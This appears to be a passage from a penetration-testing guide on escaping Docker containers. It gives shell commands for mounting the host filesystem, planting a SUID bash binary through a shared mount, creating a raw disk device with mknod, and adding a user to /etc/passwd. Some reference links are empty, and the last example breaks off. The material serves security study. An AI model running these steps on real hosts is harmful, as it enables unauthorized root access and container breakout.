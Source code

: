 #### Privileged Escape Abusing Sensitive Mounts

There are several files that might mounted that give information about the underlaying host. Some of them may even indicate something to be executed by the host when something happens (which will allow a attacker to escape from the container).
The abuse of these files may allow that:

release_agent (already covered before)

However, you can find other sensitive files to check for in this page:

### Arbitrary Mounts

In several occasions you will find that the container has some volume mounted from the host. If this volume wasn’t correctly configured you might be able to access/modify sensitive data: Read secrets, change ssh authorized_keys…

```
docker run --rm -it -v /:/host ubuntu bash
```

### Privilege Escalation with 2 shells and host mount

If you have access as root inside a container that has some folder from the host mounted and you have escaped as a non privileged user to the host and have read access over the mounted folder.
You can create a bash suid file in the mounted folder inside the container and execute it from the host to privesc.

```
cp /bin/bash . #From non priv inside mounted folder
# You need to copy it from the host as the bash binaries might be diferent in the host and in the container
chown root:root bash #From container as root inside mounted folder
chmod 4777 bash #From container as root inside mounted folder
bash -p #From non priv inside mounted folder
```

### Privilege Escalation with 2 shells

If you have access as root inside a container and you have escaped as a non privileged user to the host, you can abuse both shells to privesc inside the host if you have the capability MKNOD inside the container (it's by default) as .
With such capability the root user within the container is allowed to create block device files. Device files are special files that are used to access underlying hardware & kernel modules. For example, the /dev/sda block device file gives access to read the raw data on the systems disk.

Docker safeguards against block device misuse within containers by enforcing a cgroup policy that blocks block device read/write operations. Nevertheless, if a block device is created inside the container, it becomes accessible from outside the container via the /proc/PID/root/ directory. This access requires the process owner to be the same both inside and outside the container.

Exploitation example from this :

```
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

# Create the nonepriv user of the host inside the container
## In this case it's called augustus (like the user from the host)
echo "augustus:x:1000:1000:augustus,,,:/home/augustus:/bin/bash" >> /etc/passwd
# Get a shell as augustus inside the container
su augustus
su: Authentication failure
(Ignored)
```